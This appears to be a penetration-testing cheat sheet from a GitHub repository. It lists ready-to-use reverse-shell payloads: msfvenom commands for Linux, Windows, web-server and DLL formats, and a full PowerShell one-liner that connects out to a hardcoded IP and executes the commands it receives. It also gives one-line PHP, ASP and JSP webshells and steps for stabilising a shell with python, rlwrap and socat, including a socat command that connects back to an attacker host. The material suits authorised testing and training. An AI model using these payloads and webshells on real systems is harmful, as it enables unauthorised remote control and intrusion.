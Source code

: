 # Shells

## Reverse shells


#### Linux - MSFVenom
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Windows - MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Powershell
```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### ASP
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```
#### ASPX
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```
#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```
#### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```
#### PHP
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
#### HTA
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta-psh > shell.hta
```

#### DLL
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll > shell.dll
```

## Online Generator
<https://www.revshells.com/>
<https://weibell.github.io/reverse-shell-generator/>


## Single line Webshell

#### PHP
```
<?php echo passthru($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
```
#### ASP
```
<% eval request("cmd") %>
```
#### JSP
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## Shell Stabilisation

#### Technique 01: Python
```
➤ Step 01 : uses Python to spawn a better featured bash shell
python -c 'import pty;pty.spawn("/bin/bash")'

➤ Step 02: this will give us access to term commands such as clear
export TERM=xterm

➤ Step 03: background the shell using Ctrl + Z
CRTL+Z

➤ Step 04: Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
stty raw -echo; fg

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

➤ Example: 
kiosec@lab:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.0.1] from (unknown) [10.1.1.1] 43298

python3 -c 'import pty;pty.spawn("/bin/bash")'
user@box:~$ export TERM=xterm
export TERM=xterm
user@box:~$ ^Z
[1]+ Stopped            sudo nc -lvnp 443
kiosec@lab:~$ stty rauw -echo; fg
nc -lvnp 443

user@box:~$ whoami
user
user@box:~$ ^C
user@box:~$
```

#### Technique 02: Rlwrap
rlwrap gives a more fully featured shell including access to history, tab autocompletion and the arrow keys immediately upon receiving a shell.
This technique is particularly useful with the Windows shell.
```
➤ Step 01: Install rlwrap (not installed by default on the kali)
apt install rlwrap

➤ Step 02: Invoke the listener.
rlwrap nc -lnvp <port> 

[additional steps for Linux target]
➤ Step 03: background the shell using Ctrl + Z
CRTL+Z

➤ Step 04: Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
stty raw -echo; fg
```

#### Technique 3: Socat
Restricted to Linux target
```
➤ Prerequisite: Obtain Socat on the linux target.

➤ Step 01: Transfer a socat static compiled binary (e.g., using python http.server)
<https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true/>

➤ Step 02: On the Kali
socat TCP-L:<port> FILE:`tty`,raw,echo=0

➤ Step 03: execute the reverse shell on the target.

➤ Step 04: Once connected to the target, execute the sepcial socal command in order to 
socat TCP:<kali-attacker-ip>:<kali-attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

